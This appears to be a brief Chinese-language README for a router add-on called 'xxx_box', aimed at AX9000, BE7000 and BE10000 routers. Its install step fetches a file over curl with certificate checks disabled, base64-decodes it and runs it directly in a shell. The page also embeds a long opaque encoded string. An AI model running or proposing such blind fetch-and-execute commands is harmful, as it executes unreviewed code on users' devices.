 # xxx_box
安装命令
sh -c "$(curl -ks https://api.github.com/repos/V2023H/xxx_box/contents/install | jsonfilter -e "@['content']" | base64 -d)"

<a val="/jXZAaUd/p1iuOTvCMbgtaTAeLK6KJ7dK44nC/B912rkxf6sP6ddeeMw8YQb8Iq86Y%A6lKftsXcyV1ALn3xSdz/AKOP2BEAGN20tL1V3Nfc96w+bDsXe+xJgjKk8DDImbqaVS4JGaMA+kT%cmpD4CD9ATW9dSGWii4iy7kFNGJp7Q7WDVWXrF8OVvwnQlPih6LzhM3UmU8obskaaMJ4lrSH6hSr%4IEpisPR170TBafIlzJzYQucoUCSHPQ0D+n91o1tLyvXMSOQbV8/0kNuGvt0hjYubDEuyen26u7o%/brKuKgye4GoGjZwAyaYLIsQut2Th3goad/S4hcgO9lF2g+KyJ9/h+/QYq0DtbQcz7521RmXNcKB%KZitnGPaDByI+otYzdA6/+X/8Xzy0K3h75NhPtqi2k5Gv1ji37yCX4kYyju115T1wHgvw9El+qTu%A8n8mVywDtJvCG5iMSJ/nPrkQcbvd+7sRhMp2KeFP8D9KywMOoVKHk1nzKRW2HgHw9odfgsce9BF%svvzAXeh8zDkG/J0jJlQx5o/ENh34QR92k0XnXtL+X1N7EnzKxcGBcKnl/zBFJVmH+MejsLsCQJJ%tbSRcp7ymcZTfd7I1agv4WbjOlJuggZcLP1/lC1jxzniKfn4Apz5c7hRJyCJlFtFe/xoP6vx2gNz%RIull5nAEUi8aPT7Ax/4OxlyBaYeM7lfOWmO9NWK9L/H7StXx/LNNE2AYoSU6Ml8mC5EzT3O3/f9%+9qmrI4kHTTcG/HkKJ4aSasrd2kegsj98gGSUKXXe/i4xwhYNyRsK1S36QTzUxtcu7bXwMyD052/%GKLRsRjVzJgnF9HGZ7mey/j4u/UcRqg7nURM8ldg9+MGTObAu1N0W9RXPsSqEibMyDFh5UAIaD+F%po3VVRzLFj0rin7P0HfcRd8pjH6hlp+bG0xrnlM2lRqrK9RDy08e4dyrQbNgcWr+csW4vP9TUGeX%keDUaZ77IKkpJZrKIRtf4mOM/WVfwRwz55TdtIa6ROqStsp0OfoCkr8R26a5thRIVyOoV6BDsQQC%y6JBH0FDJBKX7WcGwqoZMxn2uH7tR6CK7duF0E7Nb0Kn2UW8EH8P8g3bBw8KvSAAK/b4ecQ5PfGF%fhmpDzp2eR46SH0SifWi6sxbyUQ3ZVno9gjark2tOrhc5b4OWEQ32RBhGZzNZL+Hk99O4x7EK9R0%fj1pLt+SOySS3/LIYZ37UCLTa73QSSIIahfrDnb/q15LfxrRtB+ZUoOfr5GlMSo82JhAhdfn1Gkm%QmOf6T97lfBzLIqgt2LwV1UsAoofQ0t4GGlQ+Lnn5WE2c5gO/3GTp4tG6m2uj/IysvwNKD14TnQG%XCP9p8mqD3yQEIZMfa8p+1v2xEJAKBacqtjgbWbJUUz/0TuH6lC2V/qTkitb/1l4A2Sj9vXCFqwJ%lCCG0W7Z73M4VUCfbt54VwMjiOQgg0TfFWf/nrADiUlF/OuCPOtxEIV14kzO2+E6VfRwzFv23QLu%k9GHfimfhO9HfKdAigmLganumMH6gFEpChN45znfrV9G+QYUd9V0ZIojMscqPsm1FJiiZuN2PoSL%h3KvebF2potZ5YLQF1HcMhrlPUr6bqUIAz6wG/kvhbrlzBeda1+nhVbRa2FQL4tKhmrdexi2rdO/%Iwlz/+MLlbAMsihjs9CvKSyPJmIVg4nydUxwxku1jmXZei1E7/YRcYrd1ynB/VuvYkurAlYmHk8c%88h5f3QRvymQiaybsMKnELWnsBQrOnZvFJwU8Ps5ANplsHcc7PUofc7ckBBoe7G7nBtVNijViY1g%lmQrCQXjdkM=%">推荐AX9000 BE7000 BE10000安装 其他aarch64机型兼容（仅在BE10000和AX9000测试，理论aarch64通用）</a>
